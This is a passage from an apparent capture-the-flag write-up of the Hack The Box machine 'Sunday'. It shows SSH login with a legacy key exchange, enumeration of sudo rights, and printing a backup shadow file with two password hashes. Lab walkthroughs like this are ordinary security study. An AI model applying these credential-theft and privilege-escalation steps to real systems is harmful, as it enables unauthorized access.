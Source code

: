 So I google and find a quick fix:

```
kali@kali:~/htb/Sunday$ sudo ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 sunny@10.129.89.207 -p 22022
The authenticity of host '[10.129.89.207]:22022 ([10.129.89.207]:22022)' can't be established.
RSA key fingerprint is SHA256:TmRO9yKIj8Rr/KJIZFXEVswWZB/hic/jAHr78xGp+YU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.129.89.207]:22022' (RSA) to the list of known hosts.
Password:
Last login: Sun Jan 31 06:21:04 2021 from 10.10.14.69
Sun Microsystems Inc.   SunOS 5.11      snv_111b        November 2008
sunny@sunday:~$ id
uid=65535(sunny) gid=1(other) groups=1(other)
sunny@sunday:~$ sudo -l
User sunny may run the following commands on this host:
    (root) NOPASSWD: /root/troll
sunny@sunday:~$
```

The shell is annoying to use, as it freezes every 5 seconds. 

```
sunny@sunday:/export/home/sammy$ sudo /root/troll
testing
uid=0(root) gid=0(root)
```
Our special permission seems to run a script, that just outputs testing, and an id for root user. However, I am unable to see the script itself, or it’s permissions

```
sunny@sunday:/$ ls
backup  boot   dev      etc     home    lib         media  net  platform  root   sbin    tmp  var
bin     cdrom  devices  export  kernel  lost+found  mnt    opt  proc      rpool  system  usr
sunny@sunday:/$ cd backup
sunny@sunday:/backup$ ls
agent22.backup  shadow.backup
sunny@sunday:/backup$ ls -la
total 5
drwxr-xr-x  2 root root   4 2018-04-15 20:44 .
drwxr-xr-x 26 root root  27 2020-09-30 13:20 ..
-r-x--x--x  1 root root  53 2018-04-24 10:35 agent22.backup
-rw-r--r--  1 root root 319 2018-04-15 20:44 shadow.backup
sunny@sunday:/backup$ cat shadow.backup
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```
